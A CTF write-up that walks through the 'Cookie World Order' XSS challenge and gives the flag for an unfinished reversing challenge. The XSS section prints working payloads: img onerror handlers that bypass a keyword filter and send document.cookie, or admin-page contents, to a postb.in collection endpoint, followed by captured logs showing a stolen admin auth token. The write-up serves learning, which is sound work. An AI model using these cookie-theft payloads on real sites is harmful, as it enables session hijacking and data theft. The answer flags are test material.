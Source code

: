 Cookie World Order (**web**)

    Good job! You found a further credential that looks like a VPN 
    referred to as the cWo. The organization appears very clandestine 
    and mysterious and reminds you of the secret ruling class of hard 
    shelled turtle-like creatures of Xenon. Funny they trust their 
    security to a contractor outside their systems, especially one with 
    such bad habits. Upon further snooping you find a video feed of 
    those "Cauliflowers" which look to be the dominant lifeforms and 
    members of the cWo. Go forth and attain greater access to reach 
    this creature!

Similarly with day 3 web problem case, we have a URL: https://cwo-xss.web.ctfcompetition.com/

Opening it and observing very similar page with Admin and field for 
input some text message.

Trying to copy-paste previous solution:

    <script>
    var img=new Image();
    img.src="https://postb.in/1561479835927-8693528019357?cookie="+document.cookie;
    </script>

leads to reply "HACKER ALERT!".
After typing different string it comes out that input must not contain 
`script` or `alert` as a substring. Well, modern WEB is full of tricks 
and wistles. If you (like me) have no expirience with web programming, 
Googling can conpensate it. Just request something like "bypassing XSS 
filter".

Our first:

    <scrip&#0000116>
    aler&#0000116('XSS');
    </scrip&#0000116>

Unfortunately, server removed `<script>` tag. Hm, maybe there are tags 
that are "allowed", do check:
    
    <b> bold </b> 
    <a href="google.com"> google </a> 
    <img src="https://cwo-xss.web.ctfcompetition.com/static/img/profile.png">

Yes, links and images work well! But links mostly requires user's 
actions, and we can be sure, that Admin bot will not click on any.
Now, back to the googling. And quickly find out that it is quite easy 
to call javascript from some event handlers, and if we can fire these 
events, then we can execute script. Common place is `onerror` event of 
`img` node, and it is very easy to fire error, just by giving it 
inproper source URL. Let's use our PostBin and try:

    <img src=x onerror="javascrip&#0000116:
    var img=new Image();
    img.src='https://postb.in/1561495195584-1681611498352?cookie='+document.cookie;">

... and back to PostBin:

    GET /1561495195584-1681611498352 2019-06-25T20:40:15.156Z
    Headers

        x-real-ip: 104.155.55.51
        host: postb.in
        connection: close
        pragma: no-cache
        cache-control: no-cache
        sec-fetch-mode: no-cors
        user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3827.0 Safari/537.36
        accept: image/webp,image/apng,image/*,*/*;q=0.8
        sec-fetch-site: cross-site
        referer: https://cwo-xss.web.ctfcompetition.com/exploit?reflect=%3Cimg%20src=x%20onerror=%22javascrip&
        accept-encoding: gzip, deflate, br

    Query

        cookie: flag=CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}; auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz

    Body

But what could we see in Admin panel with his auth token? Open 
WenConsole, do

    document.cookie="auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz"

and click on "Admin" link. What we have here... Users and Livestreams 
seems are not working. Camera Controls say requests are allowed only 
from 127.0.0.1 (localhost). Maybe those HeadlessChrome-bot is on the 
same host with server? Let's try to see how bot renders this page:

    <img src=x onerror="javascrip&#0000116:
    fetch('/admin/controls', {method: 'get'}).then((res) => { return res.text(); }).then((data) => {
          var img=new Image();img.src='https://postb.in/1561495316858-4828648881521?'+data;
    });">

Bad luck, he see the same message:

    GET /1561495316858-4828648881521 2019-06-25T21:03:13.407Z
    Headers

        x-real-ip: 104.155.55.51
        host: postb.in
        connection: close
        pragma: no-cache
        cache-control: no-cache
        sec-fetch-mode: no-cors
        user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3827.0 Safari/537.36
        accept: image/webp,image/apng,image/*,*/*;q=0.8
        sec-fetch-site: cross-site
        referer: https://cwo-xss.web.ctfcompetition.com/exploit?reflect=%3Cimg%20src=x%20onerror=%22javascrip&
        accept-encoding: gzip, deflate, br

    Query

        Requests only accepted from 127.0.0.1: 

Ok, the flag is

**CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}**


FriendSpaceBookPlusAllAccessRedPremium (**reversing**)


    Having snooped around like the expert spy you were never trained to 
    be, you found something that takes your interest: 
    "Cookie/www.FriendSpaceBookPlusAllAccessRedPremium.com"  But 
    unbeknownst to you, it was only the  700nm Wavelength herring 
    rather than a delicious cookie that you could have found.   It 
    looks exactly like a credential for another system.  You find 
    yourself in search of a friendly book to read.

    Having already spent some time trying to find a way to gain more 
    intelligence... and learn about those fluffy creatures, you 
    (several)-momentarily divert your attention here.  It's a place of 
    all the individuals in the world sharing large amounts of data with 
    one another. Strangely enough, all of the inhabitants seem to speak 
    using this weird pictorial language. And there is hot disagreement 
    over what the meaning of an eggplant is.

    But not much Cauliflower here.  They must be very private 
    creatures.  SarahH has left open some proprietary tools, surely 
    running this will take you to them.  Decipher this language and 
    move forth!


(TO BE DONE)

flag is
**CTF{Peace_from_Cauli!}**
